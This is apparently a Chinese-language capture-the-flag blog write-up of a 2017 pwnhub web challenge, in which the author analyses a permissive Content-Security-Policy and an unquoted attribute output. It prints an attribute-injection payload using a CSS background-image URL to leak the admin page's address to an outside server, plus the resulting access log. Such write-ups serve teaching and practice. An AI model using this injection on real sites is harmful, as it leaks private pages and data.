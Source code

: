 ```yaml
---
title: pwnhub_open
date: 2017-02-20 02:15:46
tags:
- pwnhub
- xss
- csp
categories:
- Blogs
---
```


这是个比较特别的题目，开始上来逛了逛发现其实挺迷的...

<!--more-->

```
题目介绍

http://52.80.1.108:6666

2017.02.18 20:00:00没有SQL注入，仔细看CSP头。
2017.02.18 12:00:00管理员只爱看有意思的东西，谁关心bug啊哈哈哈哈。
```

看看站内的功能，min.php和max.php可以提交md5，会显示最大或者最小的md5，但是输入的地方存在正则，研究了一下发现不能输入任何符号，也就意味着这里不存在问题。

有个contact和report bug，content提交有趣的md5，但不同的是，没有正则提示，很多都提示提交成功，report bug就更是了，没任何check。

根据提示我们把report bug扔下，研究contact，先看看CSP

CSP
```
Content-Security-Policy: default-src *; img-src * data: blob:; frame-src 'self'; script-src 'self' cdn.bootcss.com 'unsafe-eval'; style-src 'self' cdn.bootcss.com 'unsafe-inline'; connect-src * wss:;
```


由于contact和minmax的功能相似，猜测后台的输出方式相似，所以仔细观察min.php，最奇怪的其实是输出点，输出点后没有引号包裹，也就意味着即便使用了htmlspecialchars过滤了"和<，但是我们仍然可以dom <del>xss</del>

```

 <a id="modal" class="detail" href="#detail" data-toggle="modal"
                           contributor=aaangelwhu hexdata=672e65613167722e333170366572657265726572657265>fffffffffffe53cdbc640fffb934cfb8</a>

```

但是一切的问题都在CSP，内联的脚本是不会被执行的，但这里有好多*啊

```
img-src *
style-src unsafe-inline
connect-src *
font-src *
media-src *
object-src *
```

style可以设置啊，然后style里有个<del>font-src可以随便设置</del>

关于字体的绕过方式，我仍然不知道是不是有效的，但我稍微尝试了下发现语法不同，也许是不熟悉吧，但我肯定是智障了，css可以设置背景图片啊，img-src是*啊，所以payload

```
aaang style=background-image:url('http://119.29.192.14')
```

收到了请求
```
115.159.200.107 - - [19/Feb/2017:03:21:31 +0800] "GET / HTTP/1.1" 304 0 "http://52.80.1.108:6666/d9aba78484e6d3325f88f0e8826191e9/admin.php" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
```


但想了一晚上为啥是404，我怕是智障了

![image_1b9a7v94vr64up1alh1jkcq3r9.png-102.8kB][1]

试到flag.php

![image_1b9a8efhs12qe1ktq124drc6podm.png-62.1kB][2]


  [1]: http://static.zybuluo.com/LoRexxar/oaum49esbcd46h8i0g2oni34/image_1b9a7v94vr64up1alh1jkcq3r9.png
  [2]: http://static.zybuluo.com/LoRexxar/g5bdewuyr3z0vmqbuwyrmonc/image_1b9a8efhs12qe1ktq124drc6podm.png